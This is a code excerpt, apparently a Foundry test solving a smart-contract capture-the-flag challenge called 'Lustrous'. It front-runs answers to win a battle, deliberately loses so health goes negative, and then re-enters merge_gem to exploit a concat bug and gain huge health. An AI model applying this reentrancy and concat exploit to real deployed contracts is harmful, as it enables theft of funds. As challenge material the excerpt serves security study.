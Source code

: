 ```solidity

        // assign the 1st gem that is active
        exploit.assign_gem(0);

        action = new uint8[](100);
        for (uint i; i < action.length; i++) {
            action[i] = uint8(uint256(keccak256(abi.encodePacked(i))) % 3);
        }

        ans = new uint8[](100);
        for (uint i; i < ans.length; i++) {
            ans[i] = (action[i] + 1) % 3;
        }
        // frontrun to win once
        exploit.setAnswer(ans);

        vm.prank(address(vyperDeployer));
        lustrous.battle(action);



        action = new uint8[](200);
        for (uint i; i < action.length; i++) {
            action[i] = uint8(uint256(keccak256(abi.encodePacked(i))) % 3);
        }

        ans = new uint8[](200);
        for (uint i; i < ans.length; i++) {
            ans[i] = (action[i] + 2) % 3;
        }
        // intentionally lose, so health become negative, then reenter to merge_gem and exploit the concat bug to get huge amount of health
        exploit.setAnswer(ans);
        exploit.setReenter();

        vm.prank(address(vyperDeployer));
        lustrous.battle(action);



        action = new uint8[](300);
        for (uint i; i < action.length; i++) {
            action[i] = uint8(uint256(keccak256(abi.encodePacked(i))) % 3);
        }

        ans = new uint8[](300);
        for (uint i; i < ans.length; i++) {
            ans[i] = (action[i] + 1) % 3;
        }
        // even we cant kill the 3rd lunarian, our health is larger than it so we still win
        exploit.setAnswer(ans);

        vm.prank(address(vyperDeployer));
        lustrous.battle(action);

        console.log("stage :", lustrous.stage());
        console.log("isSolved:", lustrous.is_solved());
    }
}
```
